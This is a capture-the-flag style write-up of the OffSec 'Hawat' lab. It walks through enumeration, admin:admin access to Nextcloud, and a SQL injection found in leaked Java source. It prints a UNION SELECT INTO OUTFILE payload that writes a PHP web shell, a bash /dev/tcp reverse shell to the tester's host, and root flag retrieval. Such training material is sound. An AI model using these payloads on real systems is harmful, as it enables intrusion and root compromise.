


# Hawat

- [Machine information](#machine-information)
- [Solution](#solution)
- [References](#references)

## Machine information

```text
Difficulty: Easy
Community Rating: Very Hard
Meta Tags: Walkthrough, Walk-through, Write-up, Writeup
OS: Linux
Points: 10
Lab Description:
This lab demonstrates leveraging an SQL injection vulnerability in a Java Spring application to gain remote 
code execution. Learners will write a web shell to the server’s web root using a UNION SELECT-based SQL 
injection. The lab culminates in achieving a reverse shell as root by transferring a crafted payload, 
highlighting SQL injection exploitation, web shell deployment, and privilege escalation techniques.
Released: 8 Jun 2021
Retired: 18 May 2022
```

Machine link: [https://portal.offsec.com/machine/hawat-15710/overview/details](https://portal.offsec.com/machine/hawat-15710/overview/details)

## Solution

### Scan for services with nmap

We start by scanning the machine on all ports with `nmap` including service info and default scripts

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Hawat]
└─$ export TARGET_IP=192.168.230.147

┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Hawat]
└─$ sudo nmap -sV -sC -p- $TARGET_IP
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-02 11:42 CEST
Nmap scan report for 192.168.230.147
Host is up (0.031s latency).
Not shown: 65526 filtered tcp ports (no-response), 1 filtered tcp ports (host-unreach)
PORT      STATE  SERVICE      VERSION
22/tcp    open   ssh          OpenSSH 8.4 (protocol 2.0)
| ssh-hostkey: 
|   3072 78:2f:ea:84:4c:09:ae:0e:36:bf:b3:01:35:cf:47:22 (RSA)
|   256 d2:7d:eb:2d:a5:9a:2f:9e:93:9a:d5:2e:aa:dc:f4:a6 (ECDSA)
|_  256 b6:d4:96:f0:a4:04:e4:36:78:1e:9d:a5:10:93:d7:99 (ED25519)
111/tcp   closed rpcbind
139/tcp   closed netbios-ssn
443/tcp   closed https
445/tcp   closed microsoft-ds
17445/tcp open   http         Apache Tomcat (language: en)
|_http-title: Issue Tracker
|_http-trane-info: Problem with XML parsing of /evox/about
30455/tcp open   http         nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: W3.CSS
50080/tcp open   http         Apache httpd 2.4.46 ((Unix) PHP/7.4.15)
|_http-server-header: Apache/2.4.46 (Unix) PHP/7.4.15
|_http-title: W3.CSS Template
| http-methods: 
|_  Potentially risky methods: TRACE

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 122.78 seconds
```

We have two services running and available:

- OpenSSH 8.4 on port 22
- Apache Tomcat on port 17445
- nginx 1.18.0 on port 30455
- Apache httpd 2.4.46 on port 50080

### Check the web sites

Browsing manually to port 17445 shows a Issue Tracker service:



Browsing manually to port 30455 shows an ad/sale site:


At the end of the sale web page we find this comment

```text
<!-- Test adds with URL/?title=test -->
```

Browsing manually to port 50080 shows a restaurant site:


### Do gobuster scans

Next we search for additional files and directories with gobuster

**Port 17445**

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Hawat]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 32 -x php,txt,html -u http://$TARGET_IP:17445
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.230.147:17445
[+] Method:                  GET
[+] Threads:                 32
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================

Error: the server returns a status code that matches the provided options for non existing urls. http://192.168.230.147:17445/8595fa70-c6d1-499f-9f14-9b81752effcc => 302 (Length: 0). To continue please exclude the status code or the length

┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Hawat]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 32 -x php,txt,html -u http://$TARGET_IP:17445 -s "200,204,301,307,401,403" -b ""
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:            http://192.168.230.147:17445
[+] Method:         GET
[+] Threads:        32
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   307,401,403,200,204,301
[+] User Agent:     gobuster/3.6
[+] Extensions:     txt,html,php
[+] Timeout:        10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/login                (Status: 200) [Size: 1167]
/register             (Status: 200) [Size: 1603]
Progress: 164829 / 882244 (18.68%)[ERROR] Get "http://192.168.230.147:17445/ludzie.html": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] Get "http://192.168.230.147:17445/textutils.php": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] Get "http://192.168.230.147:17445/homefront": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] Get "http://192.168.230.147:17445/20378.php": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] Get "http://192.168.230.147:17445/20378.txt": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
<---snip--->
```

The gobuster scan actually killed the web app and I had to revert the machine!

**Port 30455**

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Hawat]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 32 -x php,txt,html -u http://$TARGET_IP:30455
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.230.147:30455
[+] Method:                  GET
[+] Threads:                 32
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 3356]
/4                    (Status: 301) [Size: 169] [--> http://192.168.230.147:30455/4/]
/phpinfo.php          (Status: 200) [Size: 68610]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```

Ah, a `phpinfo.php` file.

**Port 50080**

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Hawat]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 32 -x php,txt,html -u http://$TARGET_IP:50080
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.230.147:50080
[+] Method:                  GET
[+] Threads:                 32
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 9088]
/images               (Status: 301) [Size: 244] [--> http://192.168.230.147:50080/images/]
/4                    (Status: 301) [Size: 239] [--> http://192.168.230.147:50080/4/]
/.html                (Status: 403) [Size: 980]
/cloud                (Status: 301) [Size: 243] [--> http://192.168.230.147:50080/cloud/]
/.html                (Status: 403) [Size: 980]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```

Accessing `http://192.168.230.147:50080/cloud/` redirects us to `http://192.168.230.147:50080/cloud/index.php/login` and shows a login page for Nextcloud



Apparently, there isn't [any default login password](https://help.nextcloud.com/t/default-password-after-fresh-install/72064) but logging in with `admin:admin` worked.

We see a number of files and the most interesting one is `issuetracker.zip`.

The site seems to use Spanish so we download/descargar the file.

### Analyse the zip-file

We check the contents of the file and analyse it

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Hawat]
└─$ mv ~/Downloads/issuetracker.zip .               

┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Hawat]
└─$ ls
issuetracker.zip

┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Hawat]
└─$ unzip issuetracker.zip 
Archive:  issuetracker.zip
   creating: issuetracker/
   creating: issuetracker/src/
   creating: issuetracker/src/test/
   creating: issuetracker/src/test/java/
   creating: issuetracker/src/test/java/com/
   creating: issuetracker/src/test/java/com/issue/
   creating: issuetracker/src/test/java/com/issue/tracker/
  inflating: issuetracker/src/test/java/com/issue/tracker/TrackerApplicationTests.java  
   creating: issuetracker/src/main/
   creating: issuetracker/src/main/resources/
  inflating: issuetracker/src/main/resources/application.properties  
   creating: issuetracker/src/main/resources/templates/
  inflating: issuetracker/src/main/resources/templates/login.html  
  inflating: issuetracker/src/main/resources/templates/layout.html  
  inflating: issuetracker/src/main/resources/templates/fragments.html  
  inflating: issuetracker/src/main/resources/templates/index.html  
  inflating: issuetracker/src/main/resources/templates/user_form.html  
  inflating: issuetracker/src/main/resources/templates/user_index.html  
  inflating: issuetracker/src/main/resources/templates/issue_index.html  
  inflating: issuetracker/src/main/resources/templates/issue_form.html  
   creating: issuetracker/src/main/resources/static/
   creating: issuetracker/src/main/resources/static/css/
  inflating: issuetracker/src/main/resources/static/css/bootstrap.min.css  
   creating: issuetracker/src/main/resources/static/js/
  inflating: issuetracker/src/main/resources/static/js/bootstrap.min.js  
  inflating: issuetracker/src/main/resources/static/js/main.js  
  inflating: issuetracker/src/main/resources/static/js/jquery-3.4.1.js  
  inflating: issuetracker/src/main/resources/static/js/sweetalert.min.js  
   creating: issuetracker/src/main/java/
   creating: issuetracker/src/main/java/com/
   creating: issuetracker/src/main/java/com/issue/
   creating: issuetracker/src/main/java/com/issue/tracker/
   creating: issuetracker/src/main/java/com/issue/tracker/config/
  inflating: issuetracker/src/main/java/com/issue/tracker/config/WebSecurityConfig.java  
  inflating: issuetracker/src/main/java/com/issue/tracker/TrackerApplication.java  
   creating: issuetracker/src/main/java/com/issue/tracker/issues/
  inflating: issuetracker/src/main/java/com/issue/tracker/issues/IssueRepository.java  
  inflating: issuetracker/src/main/java/com/issue/tracker/issues/IssueInterface.java  
  inflating: issuetracker/src/main/java/com/issue/tracker/issues/Issue.java  
  inflating: issuetracker/src/main/java/com/issue/tracker/issues/IssueService.java  
  inflating: issuetracker/src/main/java/com/issue/tracker/issues/IssueController.java  
   creating: issuetracker/src/main/java/com/issue/tracker/users/
  inflating: issuetracker/src/main/java/com/issue/tracker/users/UserInterface.java  
  inflating: issuetracker/src/main/java/com/issue/tracker/users/UserService.java  
  inflating: issuetracker/src/main/java/com/issue/tracker/users/UserController.java  
  inflating: issuetracker/src/main/java/com/issue/tracker/users/UserDetailsServiceImpl.java  
  inflating: issuetracker/src/main/java/com/issue/tracker/users/Users.java  
  inflating: issuetracker/src/main/java/com/issue/tracker/users/Role.java  
  inflating: issuetracker/src/main/java/com/issue/tracker/users/UsersRepository.java  
  inflating: issuetracker/HELP.md    
  inflating: issuetracker/mvnw       
  inflating: issuetracker/mvnw.cmd   
  inflating: issuetracker/pom.xml  
```

Looking through the source code we eventually find the following from the file `issuetracker/src/main/java/com/issue/tracker/issues/IssueController.java`

```java
        @GetMapping("/issue/checkByPriority")
        public String checkByPriority(@RequestParam("priority") String priority, Model model) {
                // 
                // Custom code, need to integrate to the JPA
                //
            Properties connectionProps = new Properties();
            connectionProps.put("user", "issue_user");
            connectionProps.put("password", "ManagementInsideOld797");
        try {
                        conn = DriverManager.getConnection("jdbc:mysql://localhost:3306/issue_tracker",connectionProps);
                    String query = "SELECT message FROM issue WHERE priority='"+priority+"'";
            System.out.println(query);
                    Statement stmt = conn.createStatement();
                    stmt.executeQuery(query);

        } catch (SQLException e1) {
                        // TODO Auto-generated catch block
                        e1.printStackTrace();
                }
```

We have a SQL Select statement that are vulnerable to SQL-injection.

```java
String query = "SELECT message FROM issue WHERE priority='"+priority+"'";
```

### Login to the issue tracker site

Next, we register an account on the issue tracker site on port 17445 and then sign in.  
Now we can see and edit both users and issues.

If we edit the first issue (`http://192.168.230.147:17445/issue/edit/1`) we can choose from the following priorities:

- Normal
- High
- Urgent
- Unbreak Now!

### Access the vulnerable endpoint

We will access the vulnerable endpoint from the java source we saw earlier, that is `/issue/checkByPriority`.

However, doing a testrun with `http://192.168.230.147:17445/issue/checkByPriority?priority=Normal` results in the following error message

```text
Whitelabel Error Page

This application has no explicit mapping for /error, so you are seeing this as a fallback.
Tue Sep 02 11:56:46 UTC 2025
There was an unexpected error (type=Method Not Allowed, status=405).
```

We can capture and change the GET-request to a POST-request in Burp

```text
POST /issue/checkByPriority?priority=Normal HTTP/1.1
Host: 192.168.230.147:17445
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Cookie: JSESSIONID=87DA4A85BE1A9F013AA7C424471C6FDA
Upgrade-Insecure-Requests: 1
Priority: u=0, i


```

Much better, the two issues with Normal priority are returned.

Now we can move on to exploitation!

### Write a web shell

Looking back at the `phpinfo.php` output under the `PHP Variables` heading we can see that:

- the application is running as `root`
- the root of the application is `/srv/http`

```text
Variable                              Value
$_SERVER['USER']                      root
$_SERVER['DOCUMENT_ROOT']             /srv/http
```

We will write a small PHP web shell using SQLi with the following input

```text
' UNION SELECT '<?php echo system($_GET["cmd"]);' INTO OUTFILE '/srv/http/cmd.php'; -- 
```

Our request in Burp becomes after URL-encoding

```text
POST /issue/checkByPriority?priority=%27%20%55%4e%49%4f%4e%20%53%45%4c%45%43%54%20%27%3c%3f%70%68%70%20%65%63%68%6f%20%73%79%73%74%65%6d%28%24%5f%47%45%54%5b%22%63%6d%64%22%5d%29%3b%27%20%49%4e%54%4f%20%4f%55%54%46%49%4c%45%20%27%2f%73%72%76%2f%68%74%74%70%2f%63%6d%64%2e%70%68%70%27%3b%20%2d%2d%20 HTTP/1.1
Host: 192.168.230.147:17445
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Cookie: JSESSIONID=87DA4A85BE1A9F013AA7C424471C6FDA
Upgrade-Insecure-Requests: 1
Priority: u=0, i


```

Sending the request results in a 200 status code so it seems to have worked!

### Access the web shell

The web shell was written to the web service on port 30455 and we can test it with curl

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Hawat]
└─$ curl 'http://192.168.230.147:30455/cmd.php?cmd=id'
uid=0(root) gid=0(root) groups=0(root)
uid=0(root) gid=0(root) groups=0(root)   
```

The reason for the double output is unknown!

### Get a reverse shell

I first tried with my standard port (12345) but I didn't get that to work so I changed to a port that ought to be open in any firewalls, that is port 50080.

We start a netcat listener on port 50080

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Hawat]
└─$ nc -lvnp 50080                                                                                                               
listening on [any] 50080 ...

```

Next, we will try to get a reverse shell with a URL-encoded version of `/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.45.180/50080 0>&1"`

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Hawat]
└─$ curl 'http://192.168.230.147:30455/cmd.php?cmd=%2Fbin%2Fbash%20-c%20%22%2Fbin%2Fbash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.180%2F50080%200%3E%261%22'

```

Looking back at our netcat listener we have a connection as root

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Hawat]
└─$ nc -lvnp 50080
listening on [any] 50080 ...
connect to [192.168.45.180] from (UNKNOWN) [192.168.230.147] 40008
bash: cannot set terminal process group (291): Inappropriate ioctl for device
bash: no job control in this shell
[root@hawat http]# 

[root@hawat http]# id
id
uid=0(root) gid=0(root) groups=0(root)
[root@hawat http]# 
```

### Get the root flag

Finally, we get the only flag on the machine

```bash
[root@hawat http]# find / -type f -name proof.txt 2>/dev/null
find / -type f -name proof.txt 2>/dev/null
/root/proof.txt
[root@hawat http]# cat /root/proof.txt
cat /root/proof.txt
8<REDACTED>d
[root@hawat http]# 
```

For additional information, please see the references below.

## References

- [Apache HTTP Server - Wikipedia](https://en.wikipedia.org/wiki/Apache_HTTP_Server)
- [Apache Tomcat - Wikipedia](https://en.wikipedia.org/wiki/Apache_Tomcat)
- [Burp suite - Documentation](https://portswigger.net/burp/documentation)
- [Burp suite - Homepage](https://portswigger.net/burp)
- [find - Linux manual page](https://man7.org/linux/man-pages/man1/find.1.html)
- [Gobuster - GitHub](https://github.com/OJ/gobuster/)
- [Gobuster - Kali Tools](https://www.kali.org/tools/gobuster/)
- [nc - Linux manual page](https://linux.die.net/man/1/nc)
- [netcat - Wikipedia](https://en.wikipedia.org/wiki/Netcat)
- [Nextcloud - Wikipedia](https://en.wikipedia.org/wiki/Nextcloud)
- [Nginx - Wikipedia](https://en.wikipedia.org/wiki/Nginx)
- [nmap - Homepage](https://nmap.org/)
- [nmap - Linux manual page](https://linux.die.net/man/1/nmap)
- [nmap - Manual page](https://nmap.org/book/man.html)
- [OpenSSH  - Wikipedia](https://en.wikipedia.org/wiki/OpenSSH)
- [PHP - Wikipedia](https://en.wikipedia.org/wiki/PHP)
- [Secure Shell - Wikipedia](https://en.wikipedia.org/wiki/Secure_Shell)
- [ssh - Linux manual page](https://man7.org/linux/man-pages/man1/ssh.1.html)
